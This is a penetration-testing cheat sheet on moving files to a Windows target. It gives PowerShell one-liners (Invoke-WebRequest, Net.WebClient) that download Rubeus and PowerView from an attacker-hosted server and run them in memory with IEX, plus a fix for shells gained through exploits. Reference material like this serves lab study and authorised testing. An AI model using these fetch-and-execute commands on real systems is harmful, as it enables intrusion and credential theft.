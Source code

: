 # File transfer

## Delivering to a Windows machine

Files have to be hosted with a simple server first. `python3 -m http.server` or something equivalent can be used.

### 1. Invoke-WebRequest

Example usage:

```console
PS C:\> IWR http://192.168.56.2:8000/Rubeus.exe -o Rubeus.exe
```

In PowerShell, `iwr`, `curl`, and `wget` are all aliases for `Invoke-WebRequest`.  
It is often used in conjunction with `iex` (alias for `Invoke-Expression`) to execute scripts in-memory:

```console
PS C:\> IEX(IWR http://192.168.56.2:8000/PowerView.ps1 -UseBasicParsing)
```

The `-UseBasicParsing` flag ensures that Internet Explorer is not used for the requests.  
Since PowerShell 6.0.0, basic parsing is the default, and this flag is unnecessary.

On certain shells obtained via potatoes and deserialization exploits, `IWR` fails due to a permission issue with the progress bar.  
It can be fixed by silencing the progress bar:

```console
PS C:\> $ProgressPreference = "SilentlyContinue"
```

The `Invoke-WebRequest` cmdlet was introduced in PowerShell 3.0 and would not work on older versions.

### 2. New-Object System.Net.WebClient

Example usage with `DownloadFile` mode:

```console
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://192.168.56.2:8000/Rubeus.exe", "C:\Windows\Tasks\Rubeus.exe")
```

It can be used with `DownloadString` mode and `iex` for in-memory execution as well:

```console
PS C:\> IEX (New-Object Net.WebClient).DownloadString("http://192.168.56.2:8000/PowerView.ps1")
```

Alternatively:

```console
PS C:\> (New-Object Net.WebClient).DownloadString("http://192.168.56.2:8000/PowerView.ps1") | IEX
```
